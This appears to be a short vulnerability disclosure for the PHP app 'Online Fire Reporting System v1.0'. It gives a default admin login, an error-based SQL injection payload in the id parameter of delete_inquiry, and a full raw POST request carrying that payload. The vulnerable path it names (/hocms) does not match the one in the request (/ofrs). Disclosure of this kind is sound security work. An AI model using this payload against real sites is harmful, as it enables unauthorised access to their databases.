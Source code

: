 # Online Fire Reporting System v1.0  has SQL injection vulnerability

Login account: admin/admin123

vendor : https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_inquiry

![image-20220522140836989](https://s2.loli.net/2022/05/22/O2gXsLd8IRDhTJx.png)

Vulnerability location: /hocms/classes/Master.php?f=delete_inquiry,id

[+]Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point

```
POST /ofrs/classes/Master.php?f=delete_inquiry HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://localhost
Connection: close
Referer: http://localhost/ofrs/classes/Master.php?f=delete_team
Cookie: UM_distinctid=17edc5ecd369-032851db15155a-4c3e237c-144000-17edc5ecd374b2; CNZZDATA585346=cnzz_eid%3D1638517557-1644367242-%26ntime%3D1644367242; PHPSESSID=0nngc9rh9jt0i53ha9ueig8r9c
Upgrade-Insecure-Requests: 1

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image-20220522145939081](https://s2.loli.net/2022/05/22/j9ofBgl8rG21dhV.png)



